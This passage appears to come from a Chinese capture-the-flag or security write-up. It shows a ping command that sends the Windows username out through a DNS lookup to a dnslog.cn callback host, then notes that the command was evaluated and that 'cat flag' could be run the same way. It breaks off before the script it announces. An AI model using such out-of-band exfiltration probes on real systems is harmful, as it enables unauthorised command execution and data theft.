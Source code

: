 ```plain
ping %username%.mlbj8n.dnslog.cn
```

[![在这里插入图片描述](assets/1698900310-4c1c3795353b5a1528f7a1fbef7cefe9.png)](https://storage.tttang.com/media/attachment/2022/08/14/82585217-de9c-4180-93da-690c35e83258.png)  
此时打开网站，点击这个  
[![在这里插入图片描述](assets/1698900310-d8a136343f969c959c90cf3845a52a11.png)](https://storage.tttang.com/media/attachment/2022/08/14/ce41976d-1b9e-4a2a-a2fb-f2205a61af78.png)  
[![在这里插入图片描述](assets/1698900310-cc282a673745e3aa6b3676f4bf9d3e23.png)](https://storage.tttang.com/media/attachment/2022/08/14/2b69e561-e7ff-4cfd-bbec-c4b620a9d86a.png)  
可以发现将 username 回显了出来，也就是说它对里面的命令进行了解析，根据这点，我们这里同样也可以执行 `cat flag`这种语句，我们构造脚本如下
